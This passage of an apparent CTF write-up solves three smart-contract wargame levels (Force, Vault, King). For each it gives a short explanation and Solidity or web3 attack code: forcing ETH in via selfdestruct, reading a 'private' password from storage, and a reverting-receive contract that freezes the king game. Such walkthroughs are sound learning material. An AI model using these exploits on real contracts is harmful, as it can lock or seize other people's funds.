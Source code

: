 ## 7. Force
Even if a contract doesn't implement a receive / fallback or any payable functions to handle incoming ETH, it is still possible to forcefully send ETH to a contract through the use of `selfdestruct`. If you're deploying this contract through remix, don't forget to specify value before deploying the AttackForce contract or the `selfdestruct` won't be able to send any ETH over as there are no ETH in the contract to be sent over!
```
pragma solidity ^0.8.0;

contract AttackForce {

    constructor(address payable _victim) payable {
        selfdestruct(_victim);
    }
}
```

## 8. Vault
Your private variables are private if you try to access it the normal way e.g. via another contract but the problem is that everything on the blockchain is visible so even if the variable's visibility is set to private, you can still access it based on its index in the smart contract. Learn more about this [here](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html).
```
const password = await web3.eth.getStorageAt(instance, 1);
await contract.unlock(password);
```

## 9. King
This is a classic example of DDoS with unexpected revert when the logic of the victim's contract involve sending funds to the previous "lead", which in this case is the king. A malicious user would create a smart contract with either:

- a `fallback` / `receive` function that does `revert()`
- or the absence of a `fallback` / `receive` function

Once the malicious user uses this smart contract to take over the "king" position, all funds in the victim's contract is effectively stuck in there because nobody can take over as the new "king" no matter how much ether they use because the fallback function in the victim's contract will always fail when it tries to do `king.transfer(msg.value);`
```
pragma solidity ^0.8.0;

contract AttackKing {

    constructor(address _victim) payable {
        _victim.call{value: 10000000000000000 wei}("");
    }

    receive() external payable {
        revert();
    }
}
```
